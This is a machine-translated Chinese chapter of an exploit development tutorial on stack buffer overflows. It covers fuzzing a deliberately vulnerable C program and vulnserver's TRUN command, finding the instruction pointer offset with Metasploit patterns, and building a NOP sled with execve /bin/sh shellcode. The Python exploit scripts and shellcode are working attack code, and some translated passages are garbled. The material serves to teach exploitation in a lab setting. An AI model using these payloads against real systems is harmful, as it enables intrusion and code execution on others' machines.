# 开发-第 1 部分

开拓发展，我们到了！现在我们开始真正的东西！在本章中，我们将介绍如何处理漏洞模糊。我们还将学习开发利用漏洞的技术，例如控制指令指针以及如何找到放置外壳代码的位置。

以下是我们将在本章中介绍的主题：

*   指令指针的模糊化与控制
*   注入外壳代码
*   缓冲区溢出的完整示例

让我们开始吧！

# 指令指针的模糊化与控制

在上一章中，我们注入了字符，但我们需要知道指令指针的精确偏移量，它是注入 24 个字符。找到 RIP 寄存器的精确偏移量的想法是注入一个图案的特定序列长度，并基于堆栈上的最后一个元素，计算 RIP 寄存器的偏移量。别担心，在下一个例子中，您会理解的。那么我们如何确定 RIP 寄存器的精确偏移量呢？我们有两个工具，Metasploit 框架和 PEDA，我们将讨论这两个工具。

# 使用 Metasploit 框架和 PEDA

首先，我们将使用 Metasploit 框架创建模式，为此，我们需要导航到以下位置：`/usr/share/metasploit-framework/tools/exploit/`。

现在，如何创建一个模式？我们可以使用`pattern_create.rb`创建一个。

让我们举一个例子，使用易受攻击的代码，但缓冲区更大，比如说`256`：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int copytobuffer(char* input)
{
    char buffer[256];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

现在，让我们编译它：

```
$ gcc -fno-stack-protector -z execstack buffer.c -o buffer
```

然后我们将使用 GDB：

```
$ gdb ./buffer
```

接下来，我们计算裂缝位置的偏移量。因此，首先让我们在我们的攻击机器和`/usr/share/metasploit-framework/tools/exploit/`内部使用 Metasploit 框架创建一个模式：

```
$ ./pattern_create.rb -l 300 > pattern
```

在前面的命令中，我们生成了一个长度为`300`的模式，并将其保存在名为`pattern`的文件中。现在将此文件复制到我们的受害者机器，并在 GDB 中使用此模式作为输入：

```
$ run $(cat pattern)
```

在以下屏幕截图中可以看到前面命令的输出：


代码按预期停止，但出现错误。现在，我们需要提取堆栈中的最后一个元素，因为之后的下一个元素将溢出 RIP 寄存器。让我们看看如何获取堆栈中的最后一个元素，使用`x`命令打印内存的内容。让我们看一下 GUDE T1 命令如何在 GDB 中工作，使用


现在，让我们使用`x`打印堆栈中的最后一个元素：

```
$ x/x $rsp
```

在以下屏幕截图中可以看到前面命令的输出：


堆栈中的最后一个元素是；`0x41386941`。您还可以使用`x/wx $rsp`从 RSP 寄存器内部打印完整的字。现在我们需要在攻击机器上使用`pattern_offset.rb`计算 RIP 寄存器的准确位置：

```
$ ./pattern_offset.rb -q 0x41386941 -l 300
```

首先，我们指定从堆栈中提取的查询；然后，我们指定了所用图案的长度：



它告诉我们堆栈中的最后一个元素位于位置`264`，这意味着接下来的六个字符将溢出 RIP 寄存器：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'A'*264
buffer += pack("<Q", 0x424242424242)
f = open("input.txt", "w")
f.write(buffer)
```

如果我们的计算是正确的，我们应该在裂缝中看到 42。让我们运行以下代码：

```
$ chmod +x exploit.py
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：



我们的 42 现在位于指令指针中，它是 ASCII 格式的`bbbbbb`。

# 注入外壳代码

RIP 现在包含我们的 6 个 Bs（`424242424242`，代码已经停止抱怨`0x0000424242424242`在内存中的位置。

到目前为止，我们已经取得了成功。这就是我们的有效载荷的样子：



我们需要找到一种在 As 中注入外壳代码的方法，以便能够轻松地跳转到它。为此，我们需要首先注入`0x90`或 NOP 指令，即 NOP，以确保外壳代码被正确注入。注入外壳代码后，我们将指令指针（RIP）更改为内存中包含 NOP 指令（`0x90`的任何地址。

然后执行只需传递所有的**NOP**指令，直到它命中**外壳代码**，它就会开始执行它：


这就是我们的剥削应该是什么样子。让我们尝试注入`execve /bin/sh`外壳代码（长度`32`。现在我们需要获取内存中包含`0x90`的任何地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += '\x90'*232
buffer += 'C'*32
buffer += pack("<Q", 0x424242424242)
f = open("input.txt", "w")
f.write(buffer)
```

让我们运行新的漏洞：

```
$./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：


节目停止了。现在，让我们看看堆栈内部，通过从内存中打印`200`十六进制值来搜索 NOP 幻灯片：

```
$ x/200x $rsp
```

在以下屏幕截图中可以看到前面命令的输出：



我们找到他们了！这是我们注射的 NOP 说明书。此外，在 NoP 之后，您可以看到 32 个 CS（AutoT0T），所以现在我们可以在这个 NOP 指令的中间选择任何地址；让我们选择`0x7fffffffe2c0`：


这就是最终有效载荷的外观：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += '\x90'*232
buffer += '\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05'
buffer += pack("<Q", 0x7fffffffe2c0)
f = open("input.txt", "w")
f.write(buffer)
```

让我们运行这个漏洞：

```
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：


现在我们在 GDB 中得到了 bash 提示符；让我们尝试执行类似于`cat /etc/issue`的操作：


它给了我们`/etc/issue`的内容。

成功了！

# 缓冲区溢出的完整示例

现在，让我们看一个完整的缓冲区溢出示例。我们需要的是在 Windows 上下载并运行 vulnserver。Vulnserver 是一个易受攻击的服务器，在这里我们可以练习开发技能。您可以在[找到它 https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver) 。

下载后，使用`vulnserver.exe`运行：


现在，它正在工作并等待使用 netcat 在端口`9999`上建立连接。

Netcat 是一种工具，用于启动与服务器的连接或侦听端口并等待来自另一个客户端的连接。现在，让我们使用来自攻击机器的`nc`：

```
$ nc 172.16.89.131 9999
```

在以下屏幕截图中可以看到前面命令的输出：



现在，让我们尝试模糊化一个参数，例如`TRUN`（在易受攻击的设计应用程序中是易受攻击的参数）。我们需要建立一个脚本来帮助我们做到这一点：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'    # IP address of the victim machine 
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
s.send(('TRUN .' + 'A'*50 + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n')
print s.recv(1024)
s.close()
```

让我们尝试以以下方式发送`50`：


它没有坠毁。`5000`作为：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
s.send(('TRUN .' + 'A'*5000 + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n')
print s.recv(1024)
s.close()
```

`./fuzzing.py`命令的输出可在以下屏幕截图中看到：



没有回答！让我们看看我们的 Windows 机器：



程序崩溃了，它正在抱怨内存位置`0x41414141`，这是我们的`5000`As。在第二阶段，即控制 RIP，让我们创建一个长度为`5000`字节的模式。

从我们的攻击机器导航到`/usr/share/metasploit-framework/tools/exploit/`：

```
./pattern_create.rb -l 5000
```

在以下屏幕截图中可以看到前面命令的输出：


将输出模式复制到我们的漏洞：

```
#!/usr/bin/python
import socket
server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)

buffer="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0Fq1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"

s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n')
print s.recv(1024)
s.close()
```

现在，让我们运行 vulnserver。然后，以管理员身份打开免疫调试器。导航到文件|附加并选择 vulnserver:



单击“附加”并点击跑步程序。然后运行我们的攻击，并查看免疫调试器内部发生的情况：


让我们看看里面的寄存器：



现在，EIP 包含`396F4338`。让我们试着从我们的攻击机器中找到这个模式：

```
./pattern_offset.rb -q 0x396f4338 -l 5000
```

在以下屏幕截图中可以看到前面命令的输出：


所以，为了控制指令指针，我们需要注入`2006`As。然后，我们需要 4 个字节来控制 EIP 寄存器，其余的将作为外壳代码（`5000-2006-4`注入）；这给了我们`2990`字符。让我们尝试一下，以确保我们朝着正确的方向前进：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
buffer =''
buffer+= 'A'*2006
buffer+= 'B'*4
buffer+= 'C'*(5000-2006-4)
s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

这就是我们的有效载荷应该是什么样子：



关闭免疫调试器并再次启动应用程序。然后，再次启动攻击代码。我们应该看到在 EIP 寄存器中注入了 Bs：


成功了！我将使用免疫调试器再次检查。让我们看一下寄存器（FPU）：



现在我们已经控制了 EIP 注册。让我们看看堆栈里面：


正如你所看到的，有我们的 As，然后是 4 字节的 B 溢出了 EIP 寄存器，然后是`299*0`的 Cs。

下一章我们将要做的是在这些 Cs 中注入外壳代码。

# 总结

在本章中，我们讨论了模糊化以及如何使程序崩溃。然后，我们看到了如何使用 Metasploit 框架和注入外壳代码的非常简单的方法来获得 RIP 寄存器的精确偏移量。最后，我们介绍了一个完整的模糊化和控制指令指针的示例。

在下一章中，我们将继续我们的示例，并了解如何为外壳代码找到位置并使其工作。此外，我们还将学习更多有关缓冲区溢出的技术。